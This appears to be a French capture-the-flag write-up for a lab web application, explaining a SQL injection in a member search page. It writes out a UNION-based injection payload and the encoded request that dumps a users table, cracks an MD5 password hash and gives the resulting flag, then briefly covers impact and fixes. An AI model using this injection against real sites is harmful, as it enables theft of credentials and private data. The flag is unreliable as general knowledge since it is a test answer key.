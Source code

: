 # Explication

Nom de la faille:  SQL_injection_member

Aller sur l'URL:  `http://10.11.200.169/index.php?page=member`

Il y a un input afin de chercher un memebre.

Commme expliqué précedemment, on a réussi à obtenir le schéma complet de la base SQL.

Pour cette faille là, on va se concentrer sur la table Member_Sql_Injection.users qui a pour colonnes:

 `column user_id,  first_name, last_name, Commentaire, town, country, planet, countersign`

En faisaint l'injection SQL:
```
     1 OR 1=1 UNION select Commentaire, countersign FROM Member_Sql_Injection.users
```

http://10.11.200.169/?page=searchimg&id=1+OR+1%3D1+UNION+select+Commentaire%2C+countersign+FROM+Member_Sql_Injection.users&Submit=Submit#


On trouve un 
```
    Commentaire : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
    countersign: 5ff9d0165b4f92b14994e5c685cdce28
```

On fait un md5 decrypt sur le countersign et on obtient `fortyTwo`.
On met tout en minuscule, puis on applique  sur `fortytwo` un SHA256.
On obtient le flag `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


# Comment profiter de la faille ?

Une injection SQL peut mener à une destruction ou vol de données confidentielles.

Par exemple : vol de mots de passes, adresses email, ...

# Comment la fixe ?

Une des solutions les plus simples pour se prémunir de ce genre d'injections, il est possible d'utiliser différents outils (mySqli, PDO, ...).
Manuellement, cela consiste à vérifier qu'il n'y a aucun opérateur SQL dans la variable injectée.